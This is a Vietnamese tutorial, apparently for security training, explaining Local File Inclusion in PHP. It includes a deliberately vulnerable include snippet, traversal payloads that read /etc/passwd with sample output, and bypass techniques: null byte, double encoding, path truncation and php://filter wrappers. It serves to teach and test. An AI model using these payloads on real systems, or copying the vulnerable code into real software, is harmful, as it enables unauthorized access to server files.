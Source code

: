 # LFI (File Inclusion Vulnerability)

## 1. LFI là gì
LFI là một kĩ thuật tấn công cho phép kể tấn công có thể xem các tệp tin trên máy chủ từ xa của victim mà không cần không cần nhìn thấy hoặc có thể thực thi các mã vào 1 mục tiêu bất kì trên trang web.

Điều này xảy ra đa phần là các trang web có chứa ngôn ngữ PHP, các function dùng để gọi file khác vào như `require`, `include`, `include_once`, `require_once`. 

<p align="center">
  <img src="https://www.immuniweb.com/images/vulnerability/previews/php-file-inclusion-cwe-98.jpg" />
</p>
<center><small>`CWE-98 by PLOVER | Submission Date: 2006-07-19`</small></center>

Hiện nay thì các trang web ngoài sử dụng PHP còn có NodeJS và Python có khả năng lỗi ít hơn nhưng không phải là không có. Tương tự như php thì NodeJS có 1 số function như `require()`, `fs.readFile()`, `fs.readFileSync()`...
Hiện nay thì LFI/RFI được đưa vào top 10 OWASP được coi là "tiêu chuẩn" trong việc kiểm thử website.

## 2. Trong thực tế LFI được khai thác như thế nào

Trên thực tế thì có khá nhiều cách để khai thác lỗ hổng này:

Ví dụ vô cùng điển hình để đọc file passwd
```php
<?php
include $_GET['page'];
?>

```
```
http://example.com/index.php?page=../../../etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
hyp:x:1000:1000:,,,:/home/hyp:/bin/bash
```

### a. Null byte (%00)

Null byte dùng để bypass các kí tự đằng sau nó

```php
<?php
include $_GET['page'].'.php';
?>
```

```
http://example.com/index.php?page=../../../etc/passwd%00
```
(Từ phiên bản PHP > 5.4 vấn đề này đã được giải quyét)
### b. Encoding Bypass:

Các kí tự đặc biệt có thể cần encoding URL 2 lần

```
/ => %2F => %252F
& => %26 => %2526
% => %25 => %2525
= => %3D => %253D
```
### c. Path truncation
Kĩ thuật này dùng dể bỏ qua phần nối đằng sau có kí tự nhiều hơn.

```php
<?php
include $_GET['page'].'.php';
?>
```

Ta sẽ gửi param GET vượt quá 4096 kí tự.

### d. PHP Wrapper

Điều này yêu mã code tại file muốn đọc bắt buộc phải encode theo 1 cách gì đó trước khi gửi cho người dùng (phổ biến trong CTF)

```
?page=php://filter/read=string.rot13/resource=index
?page=php://filter/convert.base64-encode/resource=index
?page=php://filter/zlib.deflate/convert.base64-encode/resource=
```

Ngoài ra còn có `zip://`, `data://`, `expect://`, ` input://`, ` phar://`,...

Demo Notepad LFI: https://lfi-kcsc-training.glitch.me

Source: [hypnguyen1209/demo-lfi](https://github.com/hypnguyen1209/demo-lfi)


## 3. Tham khảo
https://securitydaily.net/tan-cong-file-inclusion/

https://www.immuniweb.com/vulnerability/php-file-inclusion.html

https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers
